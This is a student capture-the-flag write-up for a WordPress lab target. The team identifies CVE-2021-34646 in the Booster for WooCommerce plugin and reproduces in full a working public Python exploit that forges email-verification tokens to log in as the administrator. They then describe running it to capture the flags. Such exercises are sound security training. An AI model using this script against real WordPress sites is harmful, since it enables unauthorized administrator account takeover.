 # **CTF Week #3**

**Objective:** Login with an administrator account in a Wordpress server, using a CVE with a known exploit.

**Targeted address**: http://ctf-fsi.fe.up.pt:5001

## **Identify valuable information by browsing the web application.**

|   Plugin/Framework   |  Version   |  Source Code  |
| :--: | :--: | :--: |
| Wordpress | 5.8.1 | ![wordpress](screenshots/CTFWEEK3/wordpress.png)|
| WooCommerce | 5.7.1 | ![woocommerce](screenshots/CTFWEEK3/woocommerce.png)|
| Booster for WooCommerce | 5.4.3 | ![booster_woocommerce](screenshots/CTFWEEK3/booster_woocommerce.png)|

## First Flag Identification
For the first flag our goal was to identify a CVE that allows us to log in as another user.
We found the CVE-2021-34646 that showed us that the Booster for WooCommerce WordPress plugin were vulnerable to authentication bypass via the process_email_verification function due to a random token generation weakness in the reset_and_mail_activation_link function.

**Flag 1 Identified ->** flag{[CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646)}

## **Search for exploit online**

* The exploit was found on the exploit on https://www.exploit-db.com/exploits/50299

```phyton
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

## Second Flag Identification
For the second flag the challenge was to authenticate as admin and go to the page http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php and copy the flag hidden in there.
After finding the exploit, we downloaded it and execute the python script and give the website http://ctf-fsi.fe.up.pt:5001/ and add "1" (its the admin account) then it would generate links with random tokens and we could enter them and be logged in as admin.

#### Terminal after executing the command "python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1"
![python](screenshots/CTFWEEK3/python.png) 

#### Link given in terminal authenticates us as admin
![logged](screenshots/CTFWEEK3/logged.png)

#### We now have access to http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php
![admin](screenshots/CTFWEEK3/admin.png)

#### After cliking the message it shows us the flag
![admin_flag](screenshots/CTFWEEK3/admin_flag.png)

**Flag 2 Identified ->** flag{please don't bother me}

## Conclusion
In conclusion we checked for a vulnerability in the WordPress and after that, we found the exploit needed to access the website and logged in as an admin.
